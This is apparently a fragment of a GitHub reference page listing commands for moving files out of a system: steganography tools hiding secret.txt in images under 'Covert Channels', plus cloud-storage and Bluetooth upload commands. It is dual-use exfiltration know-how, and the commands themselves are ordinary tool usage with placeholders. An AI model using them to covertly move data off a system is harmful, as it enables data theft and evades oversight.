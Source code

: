 
### Covert Channels

1. **Using `steghide` on Linux to embed data in an image:**

```
steghide embed -cf image.jpg -ef secret.txt
```

2. **Using `OpenStego` on Linux/macOS/Windows to embed data in an image:**

```
java -jar OpenStego.jar embed -a LSB -mf image.png -cf cover.png -ef secret.txt -p password
```

3. **Using `OutGuess` on Linux to embed data in an image:**

```
outguess -k "password" -d secret.txt image.jpg stego_image.jpg
```


### Cloud Storage

1. **Using AWS CLI to upload a file to S3:**

```
aws s3 cp /path/to/local/file.txt s3://your-bucket-name/remote/file.txt
```

2. **Using Azure CLI to upload a file to Blob Storage:**

```
az storage blob upload --account-name youraccountname --account-key youraccountkey --container-name yourcontainername --type block --source /path/to/local/file.txt --name remote/file.txt
```


3. **Using Google Cloud SDK to upload a file to Cloud Storage:**

```
gsutil cp /path/to/local/file.txt gs://your-bucket-name/remote/file.txt
```


### Bluetooth


1. **Using `bt-obex` on Linux to send a file via Bluetooth:**

```
bt-obex -p MAC_ADDRESS -c /path/to/local/file.txt
```

2. **Using `bluetooth-sendto` on Linux to send a file via Bluetooth:**

```
bluetooth-sendto --device=MAC_ADDRESS /path/to/local/file.txt
```


3. **Using `obexftp` on Linux to send a file via Bluetooth:**

```
obexftp -b MAC_ADDRESS -c /path/to/local/file.txt
```
